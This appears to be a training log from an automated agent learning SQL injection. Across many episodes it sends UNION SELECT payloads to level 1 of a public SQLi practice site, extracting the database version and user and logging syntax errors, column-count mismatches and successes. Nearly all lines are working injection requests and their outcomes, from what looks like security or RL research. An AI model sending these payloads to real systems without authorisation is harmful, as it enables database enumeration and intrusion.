https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1314/1000000 [8:20:27<7027:20:24, 25.33s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. 

  0%|          | 1315/1000000 [8:22:11<13646:39:16, 49.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://z

  0%|          | 1316/1000000 [8:22:42<12112:35:47, 43.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1317/1000000 [8:22:44<8641:39:27, 31.15s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1318/1000000 [8:22:45<6114:57:43, 22.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server r

  0%|          | 1319/1000000 [8:23:31<8104:01:01, 29.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1320/1000000 [8:23:33<5838:50:12, 21.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1321/1000000 [8:23:34<4171:12:47, 15.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1322/1000000 [8:23:35<2998:19:24, 10.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1323/1000000 [8:23:36<2194:30:07,  7.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1324/1000000 [8:23:37<1621:50:30,  5.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1325/1000000 [8:23:39<1324:10:09,  4.77s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union se

  0%|          | 1326/1000000 [8:24:46<6464:41:30, 23.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1327/1000000 [8:24:47<4587:08:17, 16.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1328/1000000 [8:24:48<3362:10:20, 12.12s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1329/1000000 [8:24:49<2419:42:55,  8.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1330/1000000 [8:24:50<1792:15:25,  6.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zi

  0%|          | 1331/1000000 [8:25:42<5548:52:47, 20.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1332/1000000 [8:25:43<3953:25:32, 14.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1333/1000000 [8:25:45<2952:12:36, 10.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server respo

  0%|          | 1334/1000000 [8:25:54<2846:16:21, 10.26s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1335/1000000 [8:25:56<2138:50:35,  7.71s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1336/1000000 [8:25:57<1559:40:53,  5.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Serv

  0%|          | 1337/1000000 [8:26:23<3309:52:08, 11.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1338/1000000 [8:26:24<2387:51:46,  8.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differen

  0%|          | 1339/1000000 [8:27:20<6329:43:11, 22.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1340/1000000 [8:27:21<4495:35:27, 16.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1341/1000000 [8:27:22<3224:10:30, 11.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of c

  0%|          | 1342/1000000 [8:29:18<11899:44:57, 42.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1343/1000000 [8:29:19<8391:18:44, 30.25s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 1344/1000000 [8:30:41<12688:11:30, 45.74s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1345/1000000 [8:30:41<8941:40:38, 32.23s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select

  0%|          | 1346/1000000 [8:33:54<22275:15:55, 80.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syn

  0%|          | 1347/1000000 [8:34:12<17101:29:33, 61.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1348/1000000 [8:34:12<12006:34:36, 43.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1349/1000000 [8:34:13<8467:00:14, 30.52s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of c

  0%|          | 1350/1000000 [8:34:44<8509:26:34, 30.68s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1351/1000000 [8:34:45<6019:02:24, 21.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 1352/1000000 [8:35:04<5812:13:46, 20.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1353/1000000 [8:35:05<4129:44:47, 14.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1354/1000000 [8:35:06<2979:41:03, 10.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1355/1000000 [8:35:07<2168:07:49,  7.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1356/1000000 [8:35:08<1616:29:35,  5.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1357/1000000 [8:35:09<1198:50:44,  4.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1358/1000000 [8:35:10<899:29:44,  3.24s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1359/1000000 [8:35:11<786:37:27,  2.84s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1360/1000000 [8:35:12<617:12:42,  2.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1361/1000000 [8:35:13<515:05:03,  1.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1362/1000000 [8:35:14<398:34:21,  1.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1363/1000000 [8:35:15<421:53:42,  1.52s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' an

  0%|          | 1364/1000000 [8:35:43<2624:53:13,  9.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1365/1000000 [8:35:44<1915:45:33,  6.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=

  0%|          | 1366/1000000 [8:35:54<2180:49:58,  7.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1367/1000000 [8:35:55<1602:32:08,  5.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1368/1000000 [8:35:56<1199:12:02,  4.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1369/1000000 [8:35:57<916:07:51,  3.30s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1370/1000000 [8:35:58<724:08:02,  2.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response 

  0%|          | 1371/1000000 [8:36:40<3983:38:30, 14.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1372/1000000 [8:36:41<2879:49:49, 10.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union s

  0%|          | 1373/1000000 [8:37:59<8466:38:38, 30.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1374/1000000 [8:37:59<6003:21:34, 21.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1375/1000000 [8:38:00<4286:26:46, 15.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1376/1000000 [8:38:01<3081:56:06, 11.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1377/1000000 [8:38:02<2241:44:07,  8.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


